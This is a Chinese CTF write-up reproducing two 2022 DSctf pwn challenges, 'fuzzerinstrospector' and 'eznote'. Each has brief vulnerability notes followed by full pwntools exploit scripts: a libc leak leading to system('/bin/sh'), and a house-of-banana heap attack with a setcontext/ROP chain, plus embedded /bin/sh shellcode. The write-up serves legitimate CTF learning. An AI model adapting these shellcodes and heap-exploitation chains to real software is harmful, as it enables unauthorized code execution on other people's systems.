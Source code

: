 ```yaml
---
title: 2022 DSctf pwn 复现
date: 2022-07-20 22:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=36/
pin: false
published:
---
```


## fuzzerinstrospector

![image-20220722170458078](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220722170458078.png)

chunk内容的前8位逐字节输入

对于unsigned char的格式化输入，不能用修饰符%d，要用一个%hhu。hhu即无符号字符，无符号的char可表示0~255(0~\xff)

这里也不是让你直接写字符，是写字符对应的10进制数

u8可以把一个字符转换为其10进制数

chr可以把10进制(16进制数)转换为其ascall码(无符号字符)

互逆的2种方法`print chr(u8('a'))`

![image-20220722170527074](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220722170527074.png)

这里用到了一个‘+’号绕过，输入'+'会跳过该scanf输入。存在一个漏洞函数，可以执行输入的内容，其参数为第一个chunk。这里如果去切割unsortbin就会留下main_arena+96。

![image-20220722172707782](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220722172707782.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
# context.log_level = 'debug'
p = process("./fuzzerinstrospector")

elf = ELF("./fuzzerinstrospector")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(idx,content):
    sla("Your choice: ",1)
    sla("Index: ",idx)
    for i in range(8):
        if content[i] == "+":
            sla("Index: " + str(i) + ":", "+")
        else:
            sla("Index: " + str(i) + ":", u8(content[i]))
    p.sendafter("Bitmap: ", content[8:])

def show(idx):
    sla("Your choice: ",3)
    sla("Index: ",idx)

def dele(idx):# 0x3000
    sla("Your choice: ",4)
    sla("Index: ",idx)

print str(u8('a'))

m = ""
for i in range(0x100):
    m += chr(i)


for i in range(9):
    add(i, str(i)*0x108)

for i in range(9):
    dele(8 - i)

for i in range(8):
    add(i, "+"*8 + m)

show(7)
leak_libc = ""
for i in range(8):
    p.recvuntil('Bit: ')
    leak_libc += chr(int(p.recvuntil("\n")))

libc_base = u64(leak_libc) - 0x3ebeb0
lg('libc_base')
system = libc_base + 0x4f420

dele(0)
add(0, '/bin/sh\x00'+m)
sla("Your choice: ",6)
sl(system)

p.interactive()
```

## eznote

![image-20220722173421181](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220722173421181.png)

题目存在正常退出选项，题目一开始calloc了一个堆块来进行堆块管理，add的时候可以申请8个chunk，在管理堆中发生溢出，导致第一个堆的size头被第8个堆的管理信息给覆盖，可供堆合并，实现堆复用

其它功能只能对前7个堆块进行管理。考虑用houseofbanana，用largebinstack劫持rtld_global为堆地址，这个方法到3.2仍可用。

```python
# _*_ coding:utf-8 _*_
from pwn import *

# context.log_level='debug'
p = process("./eznote")
elf = ELF("./eznote")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(size,con):
	sla("> ",1)
	sla("Size: ",size)
	p.sendlineafter("Content: ",con)

def edit(idx,con):
	sla("> ",3)
	sla("Idx: ",idx)
	p.sendlineafter("Content: ",con)

def show(idx):
	sla("> ",4)
	sla("Idx: ",idx)


def dele(idx):
	sla("> ",2)
	sla("Idx: ",idx)


add(0x438,'e4l4')# 0
add(0x408,'e4l4')# 1
add(0x448,'e4l4')# 2
add(0x418,'e4l4')# 3
add(0x418,'e4l4')# 4
add(0x408,'e4l4')# 5
add(0x408,'e4l4')# 6
add(0xca1,'e4l4')# 7

dele(0)
dele(3)# 0123

add(0x438,'a')# 0
add(0x408,'a')# 3-1
dele(1)
show(3)
ru('Note3:\n')
key = u64(p.recv(5).ljust(8, '\x00'))
lg('key')
heap_base = key << 12
lg('heap_base')
add(0x448,'a')# 1-2
dele(4)# 3and4
add(0x838,'a')# 4-3and4
dele(2)
show(1)
libc_base = uu64()-0x219ce0
IO_list_all = libc_base + 0x21a680
system = libc_base + 0x50d60
rtld_global = libc_base + 0x264040
setcontext = libc_base + libc.sym['setcontext'] + 61
ret = libc_base + libc.sym['setcontext'] + 0x14E
bin_sh = libc_base + libc.search('/bin/sh\x00').next()
pop_rdi = libc_base + 0x000000000002a3e5
lg('ret')
lg('rtld_global')
lg('IO_list_all')

#-----------------------------------------------------------------
add(0x1000,'a')# 2
edit(1,p64(libc_base+0x21a0e0)*2+p64(0)+p64(rtld_global-0x20))
dele(0)
add(0x1000,'a')# 0
dele(0)
add(0x438, 'a')# 0
#-----------------------------------------------------------------

fake_heap_addr = heap_base + 0xb90
payload  = p64(0) + p64(libc_base + 0x265890)
payload += p64(0) + p64(fake_heap_addr)
payload += p64(setcontext) + p64(ret)

payload += p64(bin_sh)# rsp
payload += p64(ret)
payload += p64(system)
payload += '\x00'*0x80
payload += p64(fake_heap_addr + 0x28 + 0x18)# rdx+0xa0 rsp
payload += p64(pop_rdi)# rdx+0xa8 rcx
payload = payload.ljust(0x100,'\x00')

payload += p64(fake_heap_addr + 0x10 + 0x110)*0x3# 
payload += p64(0x10)
payload = payload.ljust(0x31C - 0x10,'\x00')
payload += '\x08'

edit(1,payload)
edit(3,'\x00'*0x400+p64(fake_heap_addr+0x20))

# dbg("dir ~/glibc/glibc-2.35/")
sla("> ",5)

p.interactive()
```

